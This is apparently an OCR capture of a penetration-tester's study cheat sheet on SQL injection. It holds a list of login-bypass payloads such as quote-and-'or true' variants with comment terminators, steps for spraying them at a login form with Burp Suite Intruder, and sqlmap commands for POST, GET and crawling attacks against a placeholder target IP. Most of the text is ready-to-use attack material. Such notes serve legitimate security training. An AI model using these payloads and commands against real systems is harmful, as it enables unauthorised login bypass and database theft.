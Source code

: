     "*"
    " or ""-"
    " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true#
    ' or true#
    " or true#
    ') or true#
    ") or true#
    or true-- 
    ' or true-- 
    " or true-- 
    ') or true-- 
    ") or true-- 
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x

### Sql-login-bypass

- Open Burp-suite
- Make and intercept request
- Send to intercepted request to intruder
- Cluster attack (?)
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM

- Post

	./sqlmap.py -r search-test.txt -p tfUPass

- Get
	
	sqlmap -u "http://$TARGET_IP/index.php?id=1" --dbms=mysql

- Crawl

	sqlmap -u http://$TARGET_IP --dbms=mysql --crawl=3

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM